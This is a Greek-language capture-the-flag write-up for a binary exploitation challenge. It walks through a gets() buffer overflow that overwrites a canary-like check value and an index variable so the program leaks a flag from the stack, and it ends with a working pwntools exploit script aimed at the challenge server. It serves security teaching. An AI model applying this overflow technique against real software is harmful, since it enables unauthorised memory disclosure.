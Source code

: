 Αρχικά ελέγχουμε τα mitigations του εκτελέσιμου.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/996f27da-9b12-4f7e-8e0f-3c3f408334ca)

Παρατηρούμε πως το binary έχει γίνει compiled χωρίς canary αλλά με Pie, NX και Partial Relero. Από αυτά, εν τέλει δε θα μας χρειαστεί κάτι.

Ανοίγουμε το δοσμένο binary με Ghidra (ωωωωω ναι!!). Βλέπουμε πως αποτελείται μόνο από τη συνάρτηση `main` η οποία παρουσιάζεται κάτωθι.\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/d0f4ce73-dbc0-422f-b9c1-f58cacdb9d2f)
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/dbad24e9-df1f-487d-8025-d1b5dc95ca35)\
\
Παρατηρώντας τον κώδικα βλέπουμε πως χρησιμοποιεί τη συνάρτηση `gets()` προκειμένου να διαβάσει το input του χρήστη. Συνεπώς, έχουμε απευθείας buffer overflow.\
Θέλουμε να διαβάσουμε το `flag.txt` το οποίο όπως βλέπουμε είναι αποθηκευμένο στο stack. Κοιτώντας λίγο προσεκτικότερα τον κώδικα, βλέπουμε πως αφού δώσει το input ο χρήστης, στη συνέχεια αυτό τυπώνεται με ανάποδη φορά, από το τελευταίο byte προς το πρώτο. Ειδικότερα, αυτό φαίνεται στην ακόλουθη εικόνα.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/944738c4-c0a1-4d5f-9055-80c9ee3608e1)\
\
Εξαιτίας του buffer overflow όμως, μπορούμε μέσω της υπερχείλισης να κάνουμε overwrite την τιμή της μεταβλητής `local_44` με μία αυθαίρετη τιμή. Ιδανικά θα θέλαμε αυτή να λάβει αρνητική τιμή (το πρόγραμμα την ερμηνεύει ως `int`). Έτσι το `local_88[0x3f - local_44]` θα διάβαζε πιο κάτω από τον πίνακα `local_88` (που περιέχει το input του χρήστη). Θέτοντας την κατάλληλη τιμή μπορούμε να διαβάσουμε τα περιεχόμενα του stack σε ένα συγκεκριμένο offset. Επομένως, μπορούμε να κάνουμε το πρόγραμμα να μας επιστρέψει τα περιεχόμενα του πίνακα `local_40`, τα οποία δεν είναι άλλα από το **flag**.\
\
Μένει ένα τελευταίο σημείο να προσέξουμε.\
\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/2cd9a22b-bf32-45d7-9470-dfa54441eec0)\
\
Αφού ο χρήστης δώσει το input, το πρόγραμμα ελέγχει την τιμή της μεταβλητής `local_48` και αν αυτή είναι διάφορη από την αρχική `0xFFBADDEB`, τότε τερματίζει καταλαβαίνοντας πως κάποιο Overflow έχει συμβεί. Αυτό προφανώς δεν είναι ιδιαίτερο πρόβλημα, καθώς μπορούμε κάλλιστα κατά το overflow να υπερχειλίσουμε τη μεταβλητή `local_48` με την τιμή αυτή και μετά να προχωρήσουμε στην  υπερχείλιση της μεταβλητής `local_44` που αναφέραμε παραπάνω.\
\
Συνολικά δηλαδή πρέπει κατά το overflow:
* Να υπερχειλίσουμε την τιμή της μεταβλητής `local_48` με `0xFFBADDEB = 4290436587`
* Να υπερχειλίσουμε την τιμή της μεταβλητής `local_44` με κάποια αρνητική τιμή η οποία θα μας επιτρέχει να διαβάσουμε όλο το **flag**. Προσέχουμε εδώ πως το πρόγραμμα τυπώνει ανάποδα, άρα θα πρέπει η τιμή του `local_88[0x3f - local_44]` να δείχνει στη χειρότερη στον τελευταίο χαρακτήρα του flag\
  \
  Όλα τα παραπάνω συνοψίζονται στο ακόλουθο Python script.
```Python
#N0_Sp3c14l_Ch4r

from pwn import *

#padding
pay = b'A' * 64

#overwrite local_48
pay += p32(4290436587)

#overwrite local_44
pay += p32(0xFFFFFFCC)

#connect
r = remote('0.cloud.chals.io', 32966)

#send input
r.sendlineafter(b'> ', pay)
r.recvline()
a = r.recvuntil(b'}')

#print in reverse
flag = r.recvuntil(b'H')
print(b'N'+flag[::-1]+b'}')

#PWNED
```
\
Εκτελώντας το παραπάνω, λαμβάνουμε:\
![image](https://github.com/Babafaba/NTUA_H4CK_crypto_challs/assets/56980206/322a51d4-615c-4ed3-b8ee-0fd58f818673)

